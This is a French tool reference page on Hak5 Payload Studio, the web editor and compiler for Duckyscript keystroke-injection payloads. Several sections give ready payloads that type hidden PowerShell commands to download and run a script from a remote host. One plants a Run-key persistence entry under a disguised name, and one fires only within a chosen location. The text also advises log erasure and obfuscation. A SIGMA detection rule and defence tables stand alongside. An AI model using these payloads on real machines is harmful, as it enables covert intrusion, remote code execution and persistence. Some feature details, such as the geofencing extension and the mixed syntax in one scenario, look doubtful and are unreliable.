


# Hak5 Payload Studio — L'éditeur web des payloads Duckyscript

> [!info] **En 1 phrase**
> L'IDE officiel et gratuit de Hak5 (en ligne) pour écrire, compiler et partager des payloads **Duckyscript 3.0** ciblant USB Rubber Ducky, Bash Bunny et O.MG Cable — avec wizards, templates et coloration syntaxique.

---

## Overview

| Champ | Valeur |
|---|---|
| Nom | Hak5 Payload Studio |
| Type | IDE web + compilateur Duckyscript (côté client) |
| Usage | Écriture, compilation et partage de payloads Hak5 |
| Cibles | USB Rubber Ducky (compilé `inject.bin`), Bash Bunny, Key Croc, O.MG, Shark Jack, Packet Squirrel, LAN Turtle (interprété `payload.txt`) |
| Édition Community | Gratuite, navigateur uniquement (syntax highlighting, autocomplete, live error checking) |
| Édition Pro | Une licence perpétuelle : debugger à points d'arrêt, optimisations, éditeur de language files, stats de compilation |
| Langage | Duckyscript 3.0 (Ducky 2022+) ; Duckyscript 1.0 (Ducky original) |
| Compilateur | Compilateur officiel Duckyscript 3 (embarqué, côté client) |
| Layouts | Fichiers JSON de langues (défaut `us.json`) dans le dépôt `usbrubberducky-payloads` |
| Vecteur MITRE | T1059 (scripts), T1200 (hardware), T1547 (persistance) |

Payload Studio industrialise la création de payloads : **un seul éditeur, toutes les cibles Hak5**. Le même script Duckyscript 3.0 se compile différemment selon le matériel — c'est le cœur de sa valeur.

---

## Concept

Hak5 **Payload Studio** (`payloadstudio.hak5.org`) est l'éditeur web officiel de l'écosystème Hak5 : il centralise l'écriture des payloads en **Duckyscript 3.0** pour les appareils compatibles (USB Rubber Ducky, Bash Bunny, O.MG Cable, et autres devices DuckyScript). Points clés :
- **IDE web** : coloration syntaxique, autocomplétion, validation en temps réel ;
- **Wizards** : génération de payloads courants (reverse shell Windows/Linux/macOS, exfil, etc.) sans écrire une ligne ;
- **Templates et partage** : bibliothèque de payloads communautaires, versioning, publication ;
- **Compilation** : export `.bin` pour le Rubber Ducky (via le compilateur embarqué / DuckEncoder) ou `payload.txt` pour les autres ;
- **Duckyscript 3.0** : variables, fonctions, conditions, boucles, `ATTACKMODE`, boutons/LED, etc.

Il sert à **industrialiser la création de payloads** : on y écrit une fois, on compile pour le matériel choisi, et on déploie. C'est l'outil de travail quotidien de tout testeur qui utilise des gadgets HID Hak5. Le workflow associé couvre l'écriture, le test en VM, le versioning et la réutilisation : les payloads deviennent un actif réutilisable pour des audits récurrents plutôt qu'un script jetable.

Point clé : Duckyscript 3.0 est désormais **partagé entre tous les appareils Hak5** (Rubber Ducky, Bash Bunny, O.MG, Shank, Packet Squirrel pour les modes shell). Le même langage signifie la même logique : variables, fonctions, boucles, `ATTACKMODE`, boutons/LED — seule la cible de compilation change. Payload Studio exploite cette unification en proposant un seul éditeur pour toutes les cibles, ce qui réduit drastiquement le travail de portage entre matériels.



---

## Concepts fondamentaux

| Notion | Détail |
|---|---|
| Duckyscript 3.0 | Langage structuré (2022, nouveau Rubber Ducky) : variables, fonctions, conditions, boucles |
| Duckyscript 1.0 | Langage « encodé » du Ducky original : lignes à plat (DELAY, STRING, GUI...) |
| Compilé vs interprété | Ducky = `inject.bin` (bytecode) ; Bash Bunny / O.MG / Key Croc = `payload.txt` (source) |
| `inject.bin` | Fichier binaire **exactement nommé** `inject.bin`, placé à la racine de la microSD |
| `payload.txt` | Source Duckyscript interprétée à l'exécution sur les appareils non-Ducky |
| Language files | JSON de scancodes par disposition clavier (`us.json`, `fr.json`...) |
| Extensions | Modules réutilisables (`#include`), géofencing, `SLEEP`, `LED_R`... |
| Côté client | La compilation s'exécute dans le navigateur (aucun serveur requis après chargement) |
| Pro | Debugger à points d'arrêt, mod-key gating, optimisations du bytecode, stats mémoire |

> [!note] À vérifier
> La prise en charge exacte des extensions/commandes dépend du firmware de l'appareil : vérifier la matrice de compatibilité avant de compiler pour une cible donnée.

---

## Installation

Aucune installation : l'IDE est **entièrement côté client** dans le navigateur.

```bash
# 1. Ouvrir https://payloadstudio.hak5.org dans un navigateur (compte gratuit conseillé)
# 2. Créer un nouveau payload : choisir l'appareil cible (USB Rubber Ducky / Bash Bunny / O.MG)
# 3. Écrire ou générer le script Duckyscript (wizard "Reverse Shell", templates...)
# 4. Compiler : "Compile" -> inject.bin (Ducky) ou payload.txt (Bunny/O.MG)
# 5. Copier le fichier obtenu sur le support de l'appareil (microSD du Ducky, etc.)

# Alternative hors-ligne : DuckEncoder CLI
java -jar duckencoder.jar -i payload.txt -o inject.bin -l us
```

### Organisation de la microSD (USB Rubber Ducky)

```text
/MicroSD root
  ├── inject.bin        <- payload compilé (obligatoire, nom exact)
  ├── readme.txt        <- optionnel : texte visible en mode STORAGE
  └── payloads/         <- optionnel : payloads supplémentaires multi-étapes
```

---

## Configuration

### Sélection de l'appareil (Device Picker)

| Mode éditeur | Sortie | Déploiement |
|---|---|---|
| USB Rubber Ducky (nouveau) | `inject.bin` compilé (Duckyscript 3) | Racine microSD, nom exact `inject.bin` |
| USB Rubber Ducky (original) | `inject.bin` encodé (Duckyscript 1.0) | Racine microSD |
| Bash Bunny | `payload.txt` interprété | `payloads/switch1/payload.txt` |
| O.MG Cable / Key Croc | `payload.txt` ou upload web | WebUI de l'implant (WiFi AP) |
| Shark Jack / Packet Squirrel / LAN Turtle | Bash (shell) | Dossier de payloads |

### Disposition clavier (Settings → Compiler)

```text
# PayloadStudio > Settings > Compiler Settings
# - Choisir la langue cible (us, fr, de, gb...)
# - Les fichiers JSON des langues viennent de :
#   https://github.com/hak5/usbrubberducky-payloads/tree/master/languages
# - Pro : éditeur dédié pour créer/modifier les language files
```

### Éditions

| Édition | Prix | Fonctionnalités |
|---|---|---|
| Community | Gratuit | Éditeur, autocomplétion, live error checking, compilation, partage |
| Pro | Licence perpétuelle (paiement unique) | Debugger à breakpoints, optimisations bytecode, language editor, payload stats, accès anticipé |

---

## Architecture interne



- **Éditeur** : coloration, folding, numérotation de ligne, snippets, parenthèses.
- **Analyseur** : erreurs de syntaxe en temps réel (commande inconnue, chaîne non terminée, fonction non définie...).
- **Compilateur** : traduit la source en scancodes HID + timings selon le language file, produit `inject.bin`.
- **Console** : sortie du compilateur (avertissements, erreurs) + résultats téléchargeables.

---

## Commandes

```bash
# Duckyscript 3.0 — variables, fonctions et boucles
DEFINE VICTIM_HOSTNAME target-pc
$ip = "10.10.20.15"
$port = 4444

FUNCTION OPEN_RUN
    GUI r
    DELAY 400
END_FUNCTION

FUNCTION REVERSE_SHELL
    STRING powershell -w hidden -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://$ip/shell.ps1')"
    ENTER
END_FUNCTION

OPEN_RUN
REVERSE_SHELL
```

| Construction Duckyscript 3 | Effet |
|---|---|
| `DEFINE <nom> <valeur>` | Constante (macro) |
| `$var = <valeur>` | Variable locale |
| `FUNCTION ... END_FUNCTION` / `CALL` | Fonctions réutilisables |
| `IF <expr> THEN ... END_IF` | Conditionnelle |
| `WHILE <expr> ... END_WHILE` | Boucle |
| `ATTACKMODE <mode>` | Change le mode USB (Bash Bunny) |
| `BUTTON_DEF` / `LED` | Boutons et LED du matériel |
| `REM` / `DELAY` / `STRING` | Commentaires, pauses, frappe |
| `WAIT_FOR_BUTTON` / `WAIT_FOR_STRING` | Déclencheurs d'attente |
| `#include <extension>` | Chargement d'une extension réutilisable |

---

## Options et flags

| Option | Description |
|---|---|
| `DEFAULT_DELAY <ms>` | Délai par défaut entre les commandes (vitesse de frappe) |
| `DELAY <ms>` | Pause ponctuelle |
| `STRING <texte>` | Saisie littérale |
| `STRINGLN <texte>` | Saisie + `ENTER` |
| `REPEAT <n>` | Répéter la ligne précédente (Duckyscript 1.0) |
| `$var` | Variable locale (remplacée à la compilation) |
| `DEFINE` | Macro de substitution |
| `#include` / `#define` | Préprocesseur (extensions) |
| `BUTTON_DEF` / `LED` | Contrôle du matériel (Bash Bunny) |
| Compilateur (Pro) | Optimisations du bytecode, stats mémoire, breakpoints |
| `-l <langue>` (DuckEncoder) | Language file utilisé à l'encodage (`us`, `fr`...) |

---

## Exemples pratiques

### Basic — hello world Keystroke Injection (Windows)

```bash
DELAY 1000
GUI r
DELAY 400
STRING powershell -w hidden -nop -c "echo 'Hello, World!'; pause"
ENTER
```

### Intermediate — reverse shell multi-OS avec variables

```bash
$LHOST = "10.10.20.15"
$LPORT = 4444
DELAY 1000
GUI r
DELAY 400
STRING powershell -w hidden -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://$LHOST:$LPORT/shell.ps1')"
ENTER
```

### Advanced — condition + géofencing (extension SLEEP/DISTANCE)

```bash
; $location contient lat, lon, précision — exécuter seulement près du site
IF (DISTANCE($location, 48.8566, 2.3522) < 500) THEN
    ; Dans la zone — exécuter
    GUI r
    DELAY 400
    STRING powershell -w hidden -nop -c "IEX((New-Object Net.WebClient).DownloadString('http://10.10.20.15/p.ps1'))"
    ENTER
ELSE
    ; Hors zone — attendre 1 h puis réessayer
    LED_R
    EXTENSION SLEEP
    SLEEP 3600
END_IF
```

> [!note] À vérifier
> L'extension `DISTANCE`/`SLEEP` dépend du matériel et du firmware : vérifier la matrice de compatibilité.

---

## Workflow complet (scénario pas à pas)

1. **Choisir le support** — nouveau payload → appareil (ex. USB Rubber Ducky).
2. **Générer le payload** — wizard « Reverse Shell » → sélectionner OS (Windows) → copier-coller l'IP/le port du C2 → génération automatique.
3. **Personnaliser** — ajouter variables/fonctions, un délai d'amorce, une vérification de disposition clavier.

```bash
$LHOST = "10.10.20.15"
DELAY 3000
```

4. **Compiler** — « Compile » → `inject.bin` (Ducky) ; copier sur la microSD.
5. **Tester & itérer** — brancher sur une VM, ajuster les `DELAY`, recompiler, versionner dans Payload Studio.
6. **Déployer** — armer l'appareil, exécuter sur la cible autorisée, documenter le résultat.

---

## Scénarios avancés

### Scénario 1 : Wizard reverse shell multi-OS avec variables

Générer un payload propre, paramétré, sans erreur de syntaxe.

```bash
$LHOST = "10.10.20.15"
$LPORT = 4444
DELAY 1000
GUI r
DELAY 400
STRING powershell -w hidden -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://$LHOST:$LPORT/shell.ps1')"
ENTER
```

Le wizard s'occupe des syntaxes OS (PowerShell vs bash vs zsh) ; l'analyse statique de l'IDE évite les erreurs de frappe avant le flash.

### Scénario 2 : Template communautaire + adaptation d'un payload partagé

Exploiter la bibliothèque de payloads partagés pour gagner du temps.

```bash
# 1. Chercher un payload "exfil Documents" dans la bibliothèque communautaire
# 2. Le forker dans son espace, l'adapter (chemin, C2, disposition clavier)
# 3. Ajouter une fonction de nettoyage (effacement des logs)
# 4. Compiler et déployer
```

Le partage + versioning permettent de **maintenir une bibliothèque interne** de payloads reproductibles pour les audits récurrents.

### Scénario 3 : payload déclenché manuellement avec bouton (Bash Bunny)

```bash
# Mode "armed"/"disarmed" : ne s'exécute qu'après validation du testeur
ARMING_MODE=BUTTON

BUTTON_DEF TRIGGER
IF TRIGGER
    ATTACKMODE HID STORAGE
    STRING "Attaque déclenchée manuellement"
END_IF
LED G SINGLE 500
```

Le déclenchement manuel évite de lancer un payload dès le branchement (pertinent pour un test physique contrôlé en présence de la cible).

### Scénario 4 : persistance avec masquage du process (Post-Exploitation)

```bash
; Exécuter en arrière-plan et masquer la fenêtre
GUI r
DELAY 400
STRING powershell -w hidden -nop -c "New-ItemProperty HKCU:\Software\Microsoft\Windows\CurrentVersion\Run -Name Upd -Value 'powershell -w hidden -nop -c IEX((New-Object Net.WebClient).DownloadString(\"http://10.10.20.15/p.ps1\"))' -Force"
ENTER
DELAY 1500
```

---

## Cybersecurity use cases

| Use case | Description |
|---|---|
| Pentest physique | Génération rapide de payloads pour le matériel autorisé |
| Red team | Industrialiser la livraison d'agents C2 sur plusieurs gadgets |
| Test de détection | Tester les contrôles HID/EDR avec des payloads versionnés |
| Formation | Ateliers Duckyscript : wizard + templates pour débuter |
| Défense | Maintenir une bibliothèque de signatures des payloads connus |

---

## MITRE ATT&CK

| Technique | ID | Exemple Payload Studio |
|---|---|---|
| Command and Scripting Interpreter: PowerShell | T1059.001 | Payload `powershell -w hidden -nop -c "..."` |
| Command and Scripting Interpreter: Windows Command Shell | T1059.003 | Commandes `cmd` / `netsh` frappées |
| Command and Scripting Interpreter: Unix Shell | T1059.004 | `curl ... \| bash` sur Linux/macOS |
| Hardware Additions | T1200 | Déploiement sur Ducky/Bash Bunny |
| User Execution: Malicious File | T1204.002 | Lancement d'un exe/script téléchargé |
| Boot or Logon Autostart Execution | T1547.001 | Run key posée via le payload |
| Application Layer Protocol | T1071 | HTTP(S) de livraison du C2 |
| Obfuscated Files or Information | T1027 | `-Enc` (base64) dans la commande |

---

## Defensive Security

| Signe | Défense |
|---|---|
| `inject.bin` / payloads Duckyscript retrouvés sur des supports | Politique USB stricte, blocage des clés par empreinte |
| Exécution PowerShell/une ligne au branchement USB | EDR comportemental, AMSI, restriction PowerShell |
| Compilation Java (`duckencoder`) visible sur un poste | Journalisation des processus, blocage Java non requis |
| Frappe clavier automatisée (vitesse inhumaine) | Détection HID dans l'EDR, contrôle des périphériques |

### Règle SIGMA (exemple)

```yaml
title: Duckyscript keystroke injection pattern
id: 8b02e5f3-cccc-4d3d-9f7f-4a6b8c0d2e3f
status: experimental
logsource:
    product: windows
    service: powershell
detection:
    selection:
        EventID:
            - 4104
            - 4103
        ScriptBlockText|contains:
            - 'Net.WebClient).DownloadString'
            - 'IEX(New-Object'
    condition: selection
falsepositives:
    - Administration à distance légitime
level: medium
```

> [!note] À vérifier
> Règle pédagogique : adapter au SIEM et aux spécificités de l'environnement.

---

## Automatisation

```bash
# Génération de variantes par disposition clavier (CLI DuckEncoder)
for lang in us fr de; do
  java -jar duckencoder.jar -i payload.txt -o "inject_$lang.bin" -l "$lang"
done

# Déploiement automatisé sur la microSD montée
cp inject.bin /media/user/DUCKY/inject.bin
sync
```

```python
# Python — pipeline de compilation et déploiement
import subprocess, shutil
def build(payload: str, language: str = "us") -> None:
    subprocess.run(["java", "-jar", "duckencoder.jar",
                    "-i", payload, "-o", "inject.bin", "-l", language], check=True)
    shutil.copy("inject.bin", "/media/user/DUCKY/inject.bin")
build("payload.txt")
```

---

## Output et parsing

| Sortie | Description |
|---|---|
| `inject.bin` | Bytecode compilé pour le Rubber Ducky (scancodes + timings) |
| `payload.txt` | Source Duckyscript interprétée (Bash Bunny, O.MG, Key Croc) |
| Console du compilateur | Erreurs/avertissements en temps réel |
| Payload stats (Pro) | Taille mémoire utilisée du bytecode |

```bash
# Vérifier le contenu du binaire compilé (scancodes lisibles)
strings inject.bin | head -20

# Comparer la taille source vs compilée (optimisation)
ls -la payload.txt inject.bin
```

---

## Intégrations

- [[Tools| Outils]] global
- [[Outil - USB Rubber Ducky]] — cible principale (inject.bin)
- [[Outil - Bash Bunny]] — cible Duckyscript 3 interprétée
- [[Outil - O.MG Cable]] — devices licenciés DuckyScript compatibles
- [[Outil - Flipper Zero (USB & radio)]] — BadUSB embarqué (Duckyscript similaire)
- [[Outil - Metasploit]] — reverse shells produits par les wizards
- [[Techniques/Protocole USB]] — descripteurs HID des périphériques cibles
- [hak5/usbrubberducky-payloads](https://github.com/hak5/usbrubberducky-payloads) — bibliothèque + languages files

---

## Alternatives

| Outil | Type | Points forts | Points faibles |
|---|---|---|---|
| **Hak5 Payload Studio** | IDE web officiel | Compilateur officiel DS3, wizards, partage, toutes cibles Hak5 | Nécessite navigateur ; Pro payante pour les fonctions avancées |
| DuckEncoder (CLI) | Compilateur local | Hors-ligne, scriptable, rapide | Pas d'IDE ni de validation en direct |
| [[Outil - Duckuino]] | Convertisseur DIY | Gratuit, code Arduino modifiable | Duckyscript 1.0/2.0, matériel DIY |
| nano/vim + compile | Édition manuelle | Totalement hors-ligne | Aucun aide, erreurs fréquentes |
| GitHub usbrubberducky-payloads | Bibliothèque | Payloads prêts à l'emploi, communautaires | À adapter (disposition, C2) |

---

## Performance

- **Temps de compilation** : quasi instantané (côté client) pour un payload moyen.
- **Taille d'un payload typique** : < 5 Ko en source, ~1-3 Ko en `inject.bin`.
- **Fiabilité de frappe** : dépend des `DELAY` et du firmware — un `DEFAULT_DELAY` adapté au support (SSD/HDD/VM) améliore le taux de réussite.
- **Autres** : Duckyscript 3 gère les gros scripts via fonctions/extensions sans impact sur le bytecode final.

---

## Troubleshooting

### Problème : erreur « Unknown command »

- **Cause** : faute de frappe (ex. `DEFAULTDELAY` au lieu de `DEFAULT_DELAY`).
- **Solution** : vérifier l'orthographe dans l'éditeur (autocomplétion).
- **Vérification** : la console du compilateur liste la ligne fautive.

### Problème : `inject.bin` ne s'exécute pas

- **Cause** : nom du fichier incorrect (`inject.bin.bin` avec extensions cachées), mauvais répertoire, payload compilé pour la mauvaise cible.
- **Solution** : renommer exactement `inject.bin` à la racine de la microSD ; recompiler dans le bon mode.
- **Vérification** : afficher les extensions de fichiers, comparer la taille du binaire.

### Problème : le payload fonctionne sur VM mais pas sur la cible

- **Cause** : timings (SSD vs HDD), disposition clavier, GPO/EDR.
- **Solution** : augmenter `DELAY`/`DEFAULT_DELAY`, compiler dans la langue cible, tester avec l'EDR actif.
- **Vérification** : itérer en VM miroir avant déploiement réel.

### Problème : fonction/extension indisponible sur l'appareil

- **Cause** : firmware de l'appareil plus ancien que la fonction utilisée.
- **Solution** : mettre à jour le firmware ou utiliser une construction compatible.
- **Vérification** : consulter la matrice de compatibilité des extensions.

---

## Sécurité de l'outil

- **Cadre légal** : les payloads produits servent à des injections sur du matériel autorisé uniquement (accord écrit).
- **Partage de payloads** : vérifier le contenu avant de déployer un payload communautaire (backdoor possible).
- **Secrets** : les IP/ports du C2 sont en clair dans la source — obfusquer les artefacts et chiffrer les supports.
- **Traces** : la présence de `inject.bin` sur un support est un artefact : nettoyer après l'engagement.

---

## Limitations

- **Format dépend de l'appareil** : `inject.bin` pour le Ducky (compilé) vs `payload.txt` (interprété) pour Bunny/O.MG — ne pas mélanger.
- **Navigateur requis** : l'éditeur web fonctionne en ligne ; le travail hors-ligne impose DuckEncoder/CLI.
- **Pro payante** : debugger, optimisations et stats ne sont pas dans la version gratuite.
- **Compatibilité extensions** : non garantie sur tous les firmwares.
- **Duckyscript 1.0 vs 3.0** : le Ducky original ne supporte pas le DS3 ; les commandes avancées échouent.

---

## Cheatsheet

| Action | Commande / menu |
|---|---|
| Créer un payload | `New Payload` → choisir l'appareil |
| Wizard reverse shell | `Wizards` → `Reverse Shell` → OS → IP/port |
| Compiler | Bouton `Compile` / `Generate Payload` |
| Télécharger | `inject.bin` (Ducky) ou `payload.txt` (interprété) |
| Partager | Publication dans la bibliothèque communautaire |
| Disposition | `Settings` → `Compiler Settings` → langue |
| DuckEncoder CLI | `java -jar duckencoder.jar -i payload.txt -o inject.bin -l us` |
| Nom obligatoire | `inject.bin` exactement (pas `inject.bin.bin`) |
| Pro | Debugger, optimisations, language editor, stats |

---

## Quick reference

```bash
# Payload minimal reverse shell Windows (IP fictive)
DELAY 1000
GUI r
DELAY 400
STRING powershell -w hidden -nop -c "IEX((New-Object Net.WebClient).DownloadString('http://10.10.20.15/shell.ps1'))"
ENTER
```

```bash
# Compilation locale équivalente
java -jar duckencoder.jar -i payload.txt -o inject.bin -l us
```

---

## Détection & Défense

| Signe | Défense |
|---|---|
| `inject.bin` / payloads Duckyscript retrouvés sur des supports | Politique USB stricte, blocage des clés par empreinte |
| Exécution PowerShell/une ligne au branchement USB | EDR comportemental, AMSI, restriction PowerShell |
| Compilation Java (`duckencoder`) visible sur un poste | Journalisation des processus, blocage Java non requis |
| Frappe clavier automatisée (vitesse inhumaine) | Détection HID dans l'EDR, contrôle des périphériques |
| Scripts téléchargés vers un C2 | Filtrage réseau, surveillance des connexions sortantes |

---

## Tips & Pièges

> [!tip] **Tips**
> - Utiliser le **wizard reverse shell** comme base, puis personnaliser : c'est le plus sûr pour partir d'un payload qui marche.
> - Tester la compilation cible par cible : un payload compilé pour le Ducky n'est pas forcément au format Bunny (`payload.txt`).
> - Exploiter **variables + fonctions** (Duckyscript 3) pour factoriser les payloads longs et les rendre réutilisables.
> - Versionner systématiquement : la fonction de partage/versioning permet de revenir en arrière quand une cible réelle casse un payload « parfait » sur VM.
> - Adapter `DEFAULT_DELAY` au support cible (SSD : 10, HDD : 18, VM : 10, thin client : 18-25).

> [!warning] **Pièges**
> - Le **format d'export dépend de l'appareil** : `inject.bin` pour le Rubber Ducky, `payload.txt` pour Bash Bunny/O.MG — ne pas mélanger les deux.
> - Le compilateur web peut différer du DuckEncoder local : vérifier la version de firmware de son matériel.
> - Un payload « parfait » sur VM peut échouer sur la cible réelle (timing, disposition clavier, GPO) : tester systématiquement.
> - Sur Windows, ne pas laisser le navigateur ajouter une extension : `inject.bin.bin` ne fonctionne pas.

---

## References

> [!info] **Sources**
> - [Hak5 — Payload Studio](https://payloadstudio.hak5.org)
> - [Hak5 — Docs Payload Studio](https://docs.hak5.org/payload-studio/)
> - [GitHub — usbrubberducky-payloads (langues + payloads)](https://github.com/hak5/usbrubberducky-payloads)
> - [Hak5 — DuckyScript 3.0](https://shop.hak5.org/pages/duckyscript-3-0)
> - [Hak5 — PayloadStudio Pro](https://shop.hak5.org/products/payload-studio-pro)
> - [Docs — USB Rubber Ducky (Getting Started)](https://docs.hak5.org/hak5-usb-rubber-ducky/)

---

**Liens :** [[Tools| Outils]] · [[Outil - USB Rubber Ducky| USB Rubber Ducky]] · [[Outil - Bash Bunny| Bash Bunny]]
